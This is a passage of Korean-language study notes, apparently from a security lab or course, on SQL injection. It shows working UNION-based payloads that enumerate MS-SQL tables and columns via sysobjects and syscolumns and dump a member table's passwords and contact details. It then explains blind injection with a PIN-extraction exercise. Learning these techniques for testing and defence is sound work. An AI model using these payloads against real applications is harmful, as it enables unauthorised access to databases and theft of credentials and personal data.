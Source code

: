 select * from address where dong = 'a' and 1=2 UNION select 1,db_name(),@@version,4,5,6,7 --' 

\#4 MS-SQL의 시스템 테이블을 이용해서 해당 DB에서 사용하고 있는 사용자 테이블 목록을 조회

<https://docs.microsoft.com/ko-kr/sql/relational-databases/system-tables/system-base-tables?view=sql-server-2017>

<https://docs.microsoft.com/ko-kr/sql/relational-databases/system-compatibility-views/sys-sysobjects-transact-sql?view=sql-server-2017>

select * from address where dong = 'a' and 1=2 UNION select 1,id,name,4,5,6,7 from sysobjects where xtype='U' --' 

\#5 member 테이블의 컬럼 정보(이름)를 조회

<https://docs.microsoft.com/ko-kr/sql/relational-databases/system-compatibility-views/sys-syscolumns-transact-sql?view=sql-server-2017>

select * from address where dong = 'a' and 1=2 UNION select 1,name,3,4,5,6,7 from syscolumns where id=2073058421 --' 

select * from address where dong = 'a' and 1=2 UNION select 1,name,3,4,5,6,7 from syscolumns where id=(select id from sysobjects where name='member') --' 

\#6 member 테이블에 정보를 조회

select * from address where dong = 'a' and 1=2 UNION select 1,bId,bName,bPass,bMail,bPhone,7 from member --' 



유형 #5. Blind SQL Injecton -> 참인 조건과 거짓인 조건에 따라 서버의 반응이 다른 것을 이용한 공격 기법

입력한 계정 번호(account number) 의 유효성 검증을 수행해주는 서비스





서버 내부 처리를 예측

select * from acconts where account_no = 101

결과가 있으면 -> Account number is valid.

결과가 없으면 ->Invalid account number.



select * from accounts where account_no = 101 and 1=1

결과가 있을 듯 Account number is valid.





select * from accounts where account_no = 101 and 1=2

결과가 없을 듯 Invalid account number.



문제 : pins 테이블에서 cc_number의 값이 1111222233334444인 pin 값을 구하시오. ⇒ select pin from pins where cc_number = '1111222233334444'

select * from accounts where account_no = 101 and (select pin from pins where cc_number = '1111222233334444') = 2364
